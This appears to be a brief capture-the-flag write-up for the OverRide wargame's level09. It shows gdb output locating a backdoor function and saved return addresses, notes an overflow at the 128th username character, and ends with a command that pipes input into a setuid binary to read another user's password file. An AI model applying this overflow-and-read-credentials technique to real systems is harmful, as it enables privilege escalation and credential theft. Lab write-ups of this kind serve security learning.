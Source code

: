 ### step 1: Decompile with Ghydra

- Binary in 64-bits

```
level09@OverRide:~$ file level09 
level09: setuid setgid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xa1a3a49786f29814c5abd4fc6d7a685800a3d454, not stripped
```

- Sources are available in `source.c`


### step 2: Code Analysis

- find secret backdoor function address : `0x000055555555488c`
- find eip of set_username : `0x7fffffffe4f8`  and set_msg : `0x7fffffffe4f8`
 
```
gdb level09
b set_username
c
info frame
(gdb) info frame
Stack level 0, frame at 0x7fffffffe500:
 rip = 0x5555555549d1 in set_username; saved rip 0x555555554915
 called by frame at 0x7fffffffe5d0
 Arglist at 0x7fffffffe4f0, args: 
 Locals at 0x7fffffffe4f0, Previous frame's sp is 0x7fffffffe500
 Saved registers:
  rbp at 0x7fffffffe4f0, rip at 0x7fffffffe4f8
```

```
Breakpoint 4, 0x0000555555554936 in set_msg ()
(gdb) info frame
Stack level 0, frame at 0x7fffffffe500:
 rip = 0x555555554936 in set_msg; saved rip 0x555555554924
 called by frame at 0x7fffffffe5d0
 Arglist at 0x7fffffffe4f0, args: 
 Locals at 0x7fffffffe4f0, Previous frame's sp is 0x7fffffffe500
 Saved registers:
  rbp at 0x7fffffffe4f0, rip at 0x7fffffffe4f8
```


- find address of ref : 
```
(gdb) x $rdi
0x7fffffffe500:	0x0000000a
(gdb) x $rax
0x7fffffffe500:	0x0000000a
```

- find offset between ref and eip address

dépasse sur message au 128 eme char dans username
final string : 
(python -c 'print("hhshs")' ; python -c 'print("hhshs")'; echo 'cat /home/users/end/.pass'; cat) | ./level09
